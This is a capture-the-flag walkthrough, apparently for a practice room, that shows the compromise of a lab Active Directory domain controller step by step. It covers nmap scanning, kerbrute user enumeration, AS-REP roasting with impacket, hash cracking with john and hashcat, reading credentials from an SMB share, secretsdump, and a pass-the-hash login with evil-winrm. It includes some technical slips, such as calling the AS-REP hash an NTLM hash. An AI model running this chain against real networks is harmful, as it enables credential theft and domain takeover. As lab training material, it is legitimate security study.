 #	Room 	Attacktive Directory
> Mayank Srivastava | 17 dec 2020
==========================================
	Target OS 	Windows Difficulty 	Medium
	Description 	99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
	Maker 	Sq00ky
 =========================================

#	Reconnaissance
``` As always I can Run a nmap scan against the IP  ```

```-sC for Default script -sV for Enumerating versions -oN default nmap Output```

```nmap -Sc -sV -oN nmap <target_ip> ```

```
# Nmap 7.91 scan initiated Thu Dec 17 19:05:58 2020 as: nmap -sC -sV -oN nmap/initial 10.10.103.197
Nmap scan report for 10.10.103.197
Host is up (0.63s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-17 13:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-17T13:36:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-12-17T13:37:08+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-17T13:36:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 17 19:07:24 2020 -- 1 IP address (1 host up) scanned in 86.47 seconds
```

## Enumerating Port 80

We can start by looking at the webserver. There's default IIS web page also we can do directory bruteforcing but this box is related to Active Directory so let's Move forward. There is a DNS domain name that i am going set spoookysec.local in ```/etc/hosts``` file.

## Enumerating SMB

Let's try to Enumerate 139,445 ports.
using enum4linux
```
enum4linux -a spookysec.local
Nmap Output suggested our Domain Name was spookysec.local however, enum4linux shows THM-AD.
I can see enum4linux failed to provide much inforamtion such as 
users.
```
## Kerbrute

we can try kerbrute to  get users of DC
```kerbrute username --dc spookysec.local -d spookysec.local userlist.txt```
After running this command i have some vaild users of DC.
 
```
2020/10/01 04:50:02 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/01 04:50:06 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/01 04:50:12 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/01 04:50:14 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/01 04:50:36 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/01 04:50:50 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/01 04:51:28 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/01 04:51:41 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/01 04:53:01 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/01 04:53:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/01 04:56:11 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/01 05:02:01 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/01 05:03:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/01 05:10:02 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/01 05:11:51 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/01 05:15:01 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
## Exploiting Kerberos


Now i am going to crack Active Directory password with AS-REP Roasting. This is an attack agains Kerberos for user accounts that do not require pre-authentication.

```python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile valid-users.txt```

After running this command i got ```NTLM``` hash


## Cracking 

i can't wait let's decrypt the hash using john and login to ```smb```.
Also you can use ```hashcat``` for cracking the hash use mode number ```18200``` for hash

## john

``` john scv-admin.txt --wordlist=/opt/password.txt```

## hashcat

```
hashcat -m 18200 svc-admin.txt /opt/password.txt --force
```

```Running john and hashcat will gave you a password.```

now at this stage i have smb username and password so let's try to login using smbclient

```
smbclient -L //<target_ip>/ --user svc-admin


 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
I found some shares and ```backup``` seems interesting.I found ```backup_credentials.txt``` file inside the ```backup```. Let's take a look at what's that include.

``` YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw ```
it's a base64 encoding.
Decrypting will give me another credential for the user backup.

## Elevating Privileges 

``` 
python secretsdump.py -just-dc backup@spookysec.local
```

Dumping this revels administrator NTLM hash. Now i can crack the hash or use ```evil-winrm``` to connect the administrator.

```
./evil-winrm.rb -i 10.10.225.20 -u Administrator -H (HASH HERE PLEASE)
```

# Thanks For Reading
